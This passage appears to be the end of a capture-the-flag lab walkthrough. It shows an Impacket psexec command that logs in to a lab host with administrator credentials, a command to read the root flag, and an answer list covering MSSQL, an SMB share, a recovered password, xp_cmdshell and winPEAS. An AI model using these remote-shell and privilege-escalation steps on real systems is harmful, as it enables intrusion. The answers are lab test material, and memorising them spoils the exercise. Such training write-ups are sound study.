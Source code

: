 ```shell {linenos=false}
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.129.91.127
```

![root](/img/tier2/root.png)

Finally, print out the flag.

```shell {linenos=false}
$ type C:\Users\Administrator\Desktop\root.txt
```

### Questions
- Which TCP port is hosting a database server? `1433`
- What is the name of the non-Administrative share available over SMB? `backups`
- What is the password identified in the file on the SMB share? `M3g4c0rp123`
- What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? `mssqlclient.py`
- What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? `xp_cmdshell`
- What script can be used in order to search possible paths to escalate privileges on Windows hosts? `winPEAS`
- What file contains the administrator's password? `ConsoleHost_history.txt`
